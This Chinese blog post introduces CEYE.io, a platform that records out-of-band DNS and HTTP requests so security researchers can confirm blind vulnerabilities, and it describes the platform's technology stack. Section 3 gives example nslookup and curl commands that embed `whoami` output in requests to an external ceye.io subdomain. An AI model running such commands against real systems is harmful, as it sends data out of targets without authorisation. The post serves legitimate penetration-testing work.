



1. CEYE是什么
CEYE是一个用来检测 带外（Out-of-Band）流量的监控平台，如DNS查询和HTTP请求。它可以帮助安全研究人员在测试漏洞时收集信息（例如SSRF / XXE / RFI / RCE）。
2. 为什么会有CEYE
提到为什么会有CEYE就必须提到它的使用场景了。
有两种常见的情况会导致许多漏洞扫描工具漏扫：
- 漏洞检测或漏洞利用需要进一步的用户或系统交互
- 一些漏洞类型没有直接表明攻击是成功的。如Payload触发了却不在前端页面显示。
为了解决这个问题，我们开发了CEYE平台。通过使用诸如DNS和HTTP之类的带外信道，便可以得到回显信息。
3. 如何使用
登录 ceye.io，在用户详情页可以看到自己的域名标识符 identifier，对于每个用户，都有唯一的域名标识符如abcdef.ceye.io。所有来自于abcdef.ceye.io或*.abcdef.ceye.io的 DNS查询和HTTP请求都会被记录。通过查看这些记录信息，安全研究人员可以确认并改进自己的漏洞研究方案。
3.1 通过DNS带外信道检测 Blind Payload 的执行情况

DNS查询可以以多种不同的方式进行解析。CEYE.IO平台提供了一台DNS Server来解析域名。它的nameserver address被设置为自己的服务器IP，因此所有关于ceye.io的域名的DNS查询最终都会被发送到CEYE的DNS服务器。
例如，在终端中使用nslookup
1 | ➜ nslookup `whoami`.abcdef.ceye.io |
可以看到有记录产生

我们保存了最近的100条记录，你可以通过搜索框，搜索并导出你需要的结果，导出格式为JSON。更多的Playload信息可以登录CEYE.IO平台获取。
3.2 通过HTTP带外信道检测 Blind Payload 的执行情况
CEYE.IO平台拥有自己的HTTP服务器，记录用户域名的所有请求。这可以用来做一些有趣的事情。例如：
1 | ➜ curl -X POST http://ip.port.abcdef.ceye.io/`whoami`?p=http -d data=http |

在后台，CEYE.IO平台将记录客户端请求的URL，远程IP地址，Http Method，Data，User Agent，Content Type等信息。你可以在HTTP Records页面找到这些详细信息。
4. 关于CEYE架构
原ceye的架构：
- 开发语言：python2.7
- Nginx反向代理
- 后端WEB引擎：Flask
- ORM：SQLAlchemy
- 数据库：MySQL
新的CEYE采用了前后端分离架构：
前端 ceye.io：
- 开发语言：ES6
- React全家桶：react react-router react-redux
- 异步请求库：Axios
- ES6转码编译器：Babel
- 打包工具：Webpack
- UI设计：AntDesion
- UI动效：AntMotion
后端 api.ceye.io：
- 开发语言：python3.6
- WEB框架：Falcon
- ORM：redisco
- 数据库 NOSQL：Redis
- 数据校验：cerberus
- 部署：Fabric
- DNS Server：twisted
- WSGI Server：gunicorn
- 负载均衡：Nginx
4.1 技术选型
数据库 MySQL or Redis？
我们完全弃用了以前的MySQL数据库，采用了Redis作为后端数据库。原因是当数个表的数据突破了亿行，页面上同时需要读取的动态数据增多时，为了优化MySQL的操作就显得得不偿失。而 Redis 可以在单台服务器上实现每秒数万次的读取和写入。
既然选择了Redis作为后端数据库，那么相应的应该选择一个Redis ORM。这里我们选择了Redisco作为ORM，虽然原作者已经弃坑不更新了，它的继承者也已经快一年多没有回复issue了，也没有做python3的适配。但是谁叫它的接口更符合django orm的操作方式呢。于是提交了一个PR适配了python3。
WEB Framework？
这里我们选择falcon而没有使用flask，django或其他python web框架的原因是它更快而且RESTful，这里推荐一个扩展阅读：关于Python Web框架的性能测试结果。
当我写完这个项目时，发现了一个更快的框架 Japronto
前端框架？
这里面临了2个选择，Vue or React？
作为一个二手前端，于是开始了踩坑React之旅，各种深坑浅坑不断，还好都一一解决了。
作为曾经的Vue粉简单对比下React和Vue：
生态圈
明显感觉到了React生态圈的强大，蚂蚁金服前端团队的AntDesion项目，真的把我惊艳到了。它的设计原则让我深刻的体会到了什么是
让用户觉得自己是爹。上手难度
两者相比，从上手难度来说React的各种概念真的是让新手脑壳疼，而且react的starter kit都构建得无比恶心。再从代码量方面来说：在写redux action和reducer的时候，各种命名都会显得很繁琐，但又恰好是redux这一套，让后期维护变得更加容易。对于写惯了django template等等后端渲染模版的方式后再学Vue template就会很容易上手，而刚开始用React的JSX语法会觉得有点别扭，但是习惯了又会写得很爽。
这里不展开讨论React和Vue到底哪个好，就和PHP是世界上最美的语言一样，这是个哲学问题
最后希望大家用得开心，我们会持续跟进你们的建议哒~ ^.^